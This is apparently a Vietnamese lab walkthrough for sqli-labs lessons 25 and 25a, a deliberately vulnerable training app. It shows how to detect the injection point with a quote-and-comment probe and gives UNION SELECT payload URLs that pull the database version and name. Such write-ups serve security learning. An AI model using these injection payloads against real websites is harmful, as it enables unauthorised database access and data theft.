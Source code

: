 # Những việc làm được với lesson-25
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-25

![](../images/lesson25/screen_13.png)

1. Nhập giá trị id 

![](../images/lesson25/screen.png)

2. Ta đi tìm cấu trúc của nó 

![](../images/lesson25/screen_1.png)

```
?id=1' --+
```
3. Truy xuất dữ liệu với union 

```
192.168.80.225/sqli-labs/Less-25/?id=1' union select 1,version(),database() limit 1,1 --+
```

Tương tự như thế ta có thể truy xuất toàn bộ dữ liệu của bài này 

Ở bài 25a cũng như thế và ta tìm ra cấu trúc truy vấn của bài này và dùng union là có thể tìm được cấu trúc dữ liệu của DB 

```
192.168.80.225/sqli-labs/Less-25a/?id=1 union select 1,version(),database() limit 1,1 --+
```


